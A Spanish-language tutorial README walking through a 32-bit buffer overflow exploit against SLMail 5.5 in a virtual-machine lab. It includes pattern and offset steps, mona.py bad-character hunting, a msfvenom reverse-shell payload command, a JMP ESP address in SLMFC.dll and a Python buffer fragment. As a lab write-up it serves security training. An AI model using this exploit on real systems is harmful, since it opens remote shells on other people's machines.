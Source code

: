 # Buffer Overflow

Tutorial de buffer overflow en Windows de 32 bits con el programa SLMail 5.5. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).


Con pattern_create se genera un patron de carácteres 

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern](./img/buffer_pattern.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con SLMail, se pausará el programa darle al botón de play para que se reanude el flujo del programa

![attach](./img/attach.png)

Ejecutar el script en la máquina de atacante. En Immunity Debugger se pausará automaticamente el flujo de programa, en el campo EIP se muestra un dirección la cual sirve para determinar el offset para controlar el EIP.

![image](./img/eip_offset.png)  

con se determina el offset

![offset](./img/pattern_offset.png)

En este caso el offset es de 2607. 

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se copiar en C:/Progr

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![moona_folder](./img/set_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos llamado bytearray.txt, que contiene los carácteres imprimibles. Para transferir el archivo de una maquina otra, desde la maquina atacante usar un servidor samba y con la maquina victima en cmd con el copy 

Maquina atacante
![smb_server](./img/smb_server.png)

Maquina victima

``` copy RutaDelArchivo \\IPmaquinaatacante\smbFolder\ ```

![smb_copy](./img/smb_copy.png)

![code_badchars](./img/badchars.png)

Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\SLMail\bytearray.bin -a Dirreción ``` para obtener un badcha)

![](./img/badchar_compare.png)


Con el comando ``` !mona bytearray -cpb "\x00\x0a ``` se genera de nuevo los archivos bytearray pero sin los badchars. Esto se  hace hasta que ya no aparezca ninguno

Una vez obtenidos los badchars ahora se crea un shell code que los omita

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -b "\x00\x0a\0xd" -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con !mona modules se muestran los módulos de SLMail, se busca alguno que que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge SLMFC.dll
![mona_modules](./img/mona_modules.png)

![module_target](/img/module_target.png)


Se busca la dirección de jmp ESP en el módulo con

```
!mona find -s "\xff\xe4" -m SLMFC.DLL
```

![find_jmp](./img/find_jump_esp.png)

Se comprueba que la dirreción apunte a jmp ESP

![check_dir](./img/find_jump_esp_dir.png)

En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ```5f4a358f ->  8f354a5f ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell

```
    offset = b"A"*2607
    eip = b"\x8f\x35\x4a\x5f" #0x5f4a358f
    buffer = offset + eip  + b"\x90"*16 + shell_code
```

![reverse_shell](./img/reverse_shell.png)



